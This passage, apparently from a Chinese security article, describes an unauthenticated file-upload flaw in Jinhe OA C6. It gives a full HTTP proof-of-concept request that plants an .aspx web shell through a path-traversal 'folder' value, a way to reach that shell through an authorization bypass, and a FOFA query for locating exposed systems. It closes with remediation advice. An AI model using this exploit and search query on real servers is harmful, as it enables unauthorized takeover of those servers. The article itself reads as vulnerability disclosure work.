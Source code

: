 这里构造请求，不指定目录上传文件，可以看到文件被保存到/Resource/  
文件夹下面。这是保存资源的文件夹，无法在外部访问到  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7AzyPll3BkGK2UWYiaa1TPz6YGvBvKJ3l7MYBlJsYktGVlY9hFurXAE41Jj2mUpGPlzQeoxdLDTw/640?wx_fmt=png&from=appmsg "")  
  
指定保存文件夹为能访问到的/C6/  
目录下面，继续请求，可以看到是能正常目录穿越保存的  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7AzyPll3BkGK2UWYiaa1TP5SSAwcWhf31HBp8rIg9dVDCVWYqVtFSHicOWkh1EeVM4eBcuKdttIHw/640?wx_fmt=png&from=appmsg "")  
  
最后就是访问上传的shell，验证连接shell文件成功（这里借助金和C6系统的未申请访问漏洞，在aspx文件末尾加上/  
即可访问）  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7AzyPll3BkGK2UWYiaa1TPyjo9mqZEy2tC976lOibWuTOriakMmnwDGeET9Rb46H1MB2MPZHLHdl4g/640?wx_fmt=png&from=appmsg "")  
## 四、总结  
  
金和OA C6系统存在未授权的文件上传方法，利用该方法可上传恶意文件，再结合不需要权限验证就能访问文件的历史漏洞，就能组合获取服务器权限。  
## 五、资产测绘  
  
FOFA语法  
```
app="金和网络-金和OA"
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7AzyPll3BkGK2UWYiaa1TP8icc0gWhRM7DgibAclI5t94ORiaoSI0qQLicpjUMIy38HicW4RPUTp6QrGw/640?wx_fmt=png&from=appmsg "")  
## 六、漏洞复现  
  
POC如下  
```
POST /C6/Fileupload/Upload.ashx HTTP/1.1Host:Content-Type: multipart/form-data; boundary=---------------------------7d81b916a8ac8-----------------------------7d81b916a8ac8Content-Disposition: form-data; name="folder"\....\....\C6\common\-----------------------------7d81b916a8ac8Content-Disposition: form-data; name="encrpyt"false-----------------------------7d81b916a8ac8Content-Disposition: form-data; name="file"; filename="3212.aspx"Content-Type: text/plain文件内容-----------------------------7d81b916a8ac8--
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7AzyPll3BkGK2UWYiaa1TP5SSAwcWhf31HBp8rIg9dVDCVWYqVtFSHicOWkh1EeVM4eBcuKdttIHw/640?wx_fmt=png&from=appmsg "")  
## 七、漏洞修复建议  
  
升级金和OA C6到最新版本，修改用于检查全局的AcquireRequestState  
的EndsWith  
方法，避免出现未授权访问；并对文件上传后缀进行白名单限制或是禁用upload.ashx  
方法。  
  
  
  
****  
**专栏介绍**  
  
Freebuf知识大陆内部共享资料截屏详情如下  
  